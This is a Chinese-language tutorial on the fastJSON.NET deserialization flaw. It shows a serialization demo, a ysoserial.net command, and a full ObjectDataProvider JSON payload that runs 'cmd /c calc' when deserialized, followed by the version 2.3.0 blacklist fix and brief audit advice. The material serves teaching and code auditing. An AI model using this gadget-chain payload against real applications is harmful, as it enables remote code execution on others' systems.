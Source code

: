 # Fastjson

fastjson是之前比较流行的第三方json库。[官方文档](https://www.codeproject.com/Articles/159450/fastJSON-Smallest-Fastest-Polymorphic-JSON-Seriali)宣称其性能测试第一，并且给了图

![xxxxxxxxxxxxxxx](Fastjson.assets/net4auto_deserialize.png)

本文讲解fastjson.net的反序列化漏洞

# demo

一个最小的序列化demo

```csharp
using fastJSON;
using System;

namespace Fastjson.NetSerializer
{
    class Person
    {
        public string Name { get; set; }
    }
    class Program
    {
        static void Main(string[] args)
        {
            Person person = new Person();
            person.Name = "jack";
            string json = JSON.ToJSON(person);
            Console.WriteLine(json);
            Person p = JSON.ToObject<Person>(json);
            Console.WriteLine(p.Name);
            Console.ReadKey();
        }
    }
}
```

输出

```json
{"$types":{"Fastjson.NetSerializer.Person, Fastjson.NetSerializer, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null":"1"},"$type":"1","Name":"jack"}
jack
```

可见附带了type信息，那么当json可控时，传入objectdataprovider可造成RCE。

# 攻击链objectdataprovider

ysoserial.net生成payload如下

```json
PS E:\code\ysoserial.net\ysoserial\bin\Debug> .\ysoserial.exe -f fastjson -g ObjectDataProvider -c calc
{
    "$types":{
        "System.Windows.Data.ObjectDataProvider, PresentationFramework, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = 31bf3856ad364e35":"1",
        "System.Diagnostics.Process, System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089":"2",
        "System.Diagnostics.ProcessStartInfo, System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089":"3"
    },
    "$type":"1",
    "ObjectInstance":{
        "$type":"2",
        "StartInfo":{
            "$type":"3",
            "FileName":"cmd","Arguments":"/c calc"
        }
    },
    "MethodName":"Start"
}
```

json传入反序列化之后弹出calc

![image-20210517172621037](Fastjson.assets/image-20210517172621037.png)

上图是使用fastjson2.2.4版本，在fastjson2.3.0版本之后，官方的GitHub仓库有一个[issue](https://github.com/mgholam/fastJSON/issues/108)提到了type可控造成RCE漏洞，由此作者在2.3.0之后增加了`JSONParameters.BlackListTypeChecking`来检查type值是否为已知的漏洞，类似于java中的fastjson黑名单。[commit在这里](https://github.com/mgholam/fastJSON/commit/52abf6cc2c60a75ea5d85ec8ea348461d095ddfb)

黑名单关键代码如下

![image-20210517173015665](Fastjson.assets/image-20210517173015665.png)

当使用同样的payload打2.3.0及以上版本的fastjson时，会抛出异常

![image-20210517173139444](Fastjson.assets/image-20210517173139444.png)

> Black list type encountered, possible attack vector when using $type : System.Windows.Data.ObjectDataProvider, PresentationFramework, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = 31bf3856ad364e35”

# 审计

关注fastjson的版本，以及json传入是否可控。

# 后文

fastjson因为json.net的兴起逐渐被取代，但仍是比较经典的json反序列化漏洞。